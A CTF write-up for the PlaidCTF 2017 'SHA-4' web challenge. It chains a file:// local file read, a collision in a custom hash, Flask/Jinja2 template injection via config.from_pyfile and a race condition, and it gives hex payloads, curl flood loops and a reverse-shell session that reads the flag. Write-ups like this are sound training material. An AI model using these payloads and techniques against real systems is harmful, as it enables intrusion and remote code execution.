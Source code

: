 ```yaml
---
layout: post
title: "PlaidCTF 2017 - SHA-4"
category: writeups
authors: [thezero, jbz]
tags: plaidctf-2017 web
---
```


Web - 300 Points

I heard SHA-1 is broken, so I think it's probably time we move to SHA-4.

### Writeup

This challenge provided two forms, one which allowed to upload comments and a textarea which would parse an hex encoded, ans1 enveloped input.

Solution *tl;dr*

    local file read, hash collision, template injection, race condition


#### Directory Traversal

It is trivial to find a directory traversal by using the `file://` uri scheme instead of the intended `http://` or `https://` ones. Once We got file-reading access, by getting the system version from `file:///etc/issue` and getting the cmdline from `file:///proc/self/cmdline` we found the directory of the python webapp: `/var/www/sha4`.

By guessing we found out that the directory contained those 2 files:
[server.py]({{ site.url }}/assets/PlaidCTF2017/sha4_server.py)
[sha4.py]({{ site.url }}/assets/PlaidCTF2017/sha4_sha4.py)

By checking the code we can see a possible template injection here:

    return render_template_string(commentt, comment=out_text.replace("\n","<br/>"))

However we can't directly send an input containing characters such as `{}` or `/` because the function `is_unsafe()` check if our comments contains chars not whitelisted in `string.ascii_letters + string.digits + " ,.:()?!-_'+=[]\t\n<>"` before rendering it.

The code however seems a little strange for what it is intended to do, let's check the whole `comments()` function:

{% highlight python %}
try:
  encoded = request.form['comment']
  encoded.replace("\n","\r")
  ber = encoded.decode("hex")
except TypeError:
  return render_template_string(bad)
f = "/var/tmp/comments/%s.txt"%hash(ber).encode("hex")
  
out_text = str(decode(ber))
open(f, "w").write(out_text)

if is_unsafe(out_text):
  return render_template_string(unsafe)

commentt = comment % open(f).read()
return render_template_string(commentt, comment=out_text.replace("\n","<br/>"))
{% endhighlight %}

So the code does the following:

 - hex decode the comment POST parameter
 - calculate the 'sha4' hash of the input
 - set the path `/var/tmp/comments/<hash>.file` as output
 - ASN.1 ber decode the input
 - write the decoded input to the file
 - check if it contain unsafe characters
 - if the previous check is false render the template

#### Template Injection

Since the webapp use Flask, so we can grab the code needed from [Exploring SSTI in flask](https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii/) which hash the following requirements to achieve Command Execution:

 - upload a python reverse shell payload
 - inject `{% raw  %}{{ config.from_pyfile('/var/tmp/comments/<hash>.file') }}{% endraw  %}` in the `render_template()` function

Uploading is simple, we just need to upload the file using the upload form and calculate its path with the `sha4` function.  
The second point is the hard one.  
If we take a closer look at the `comments()` function we can notice there's something a little unusual: why would the programmer write the input to disk, check if it's safe and read it back? It is already in the `out_text` variable!

This seem coded to create a race condition situation and make the challenge solvable.
So basically, to exploit the template injection we need to:

 - find a `sha4` hash collision between two ASN.1 encoded strings: one containing `{% raw  %}{{ config.from_pyfile('/var/tmp/comments/<hash>.file') }}{% endraw  %}` and a safe one (which means without `{}` and `/`)
 - send both requests as fast as we can to have enough luck to exploit the race condition by overwriting the file `/var/tmp/comments/<collided hash>.txt` with the malicious payload while the script has passed the `is_unsafe()` check on the safe payload


#### Collision!

We find out that finding a collision was pretty easy.
For every char there was a colliding one for each position in the DES key (see sha4.py file).

So we calculate each colliding char in each position for out 3 forbidden char (`{}/`) with this small snippet

{% highlight python %}
def char_position_collision(char):
    for j in xrange(7):
        m1 = "a"*j + char
        for i in xrange(0,256):
            m2 = "a"*j+chr(i)
            if m1 != m2 and hash(m1) == hash(m2):
                print(m1,m2)
                break
char_position_collision("{")
char_position_collision("}")
char_position_collision("/")
{% endhighlight %}

Then we wrote this [script]({{ site.url }}/assets/PlaidCTF2017/sha4_find_payload.py) that:

 1. take our "bad" payload, for each "bad" character replace it with it's relative collision
 2. set dummy padding at the start and at the end of the payload, since the hash function was appending a padding block that needs to collide as well. 
 3. encode both "good" and "bad" payload as ASN.1
 4. hash them!

Here the 2 payload, ASN.1 encoded
```
0459617b7b636f6e6669672e66726f6d5f707966696c652820222e2e2f2e2e2f746d702f636f6d6d656e74732f64643331623464633435346336656337653031343736653032663865656163342e66696c652229207d7d61616161
0459616b73636f6e6669672e66726f6d5f707966696c652820222e2e2e2e2e3f746d702e636f6d6d656e74730f64643331623464633435346336656337653031343736653032663865656163342e66696c652229203d5d61616161
```

#### Finally, the Flag

Once we have the colliding payloads we just have to send both requests, as fast as we can, possibly using multiple threads; so from a server with a fast connection we can simply open multiple tmux sessions, running one of the following command is each
{% highlight shell %}
while true; do curl --data 'comment=0459616b73636f6e6669672e66726f6d5f707966696c652820222e2e2e2e2e3f746d702e636f6d6d656e74730f64643331623464633435346336656337653031343736653032663865656163342e66696c652229203d5d61616161' http://sha4.chal.pwning.xxx/comments; done;
{% endhighlight %}
{% highlight shell %}
while true; do curl --data 'comment=0459617b7b636f6e6669672e66726f6d5f707966696c652820222e2e2f2e2e2f746d702f636f6d6d656e74732f64643331623464633435346336656337653031343736653032663865656163342e66696c652229207d7d61616161' http://sha4.chal.pwning.xxx/comments; done;
{% endhighlight %}

After a while the reverse shell should call back to our netcat listener:  

{% highlight shell %}
$ whoami
www-data
$ uname -a
Linux chal-sha4 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
$ pwd
/var/www
$ ls
html
sha4
$ ls sha4
flag_bilaabluagbiluariglublaireugrpoop
server.py
server.pyc
sha4.py
sha4.pyc
sha4.wsgi
static
templates
$ cat sha4/flag_bilaabluagbiluariglublaireugrpoop
PCTF{th3 security aspect of cyber is very very tough}
{% endhighlight %}


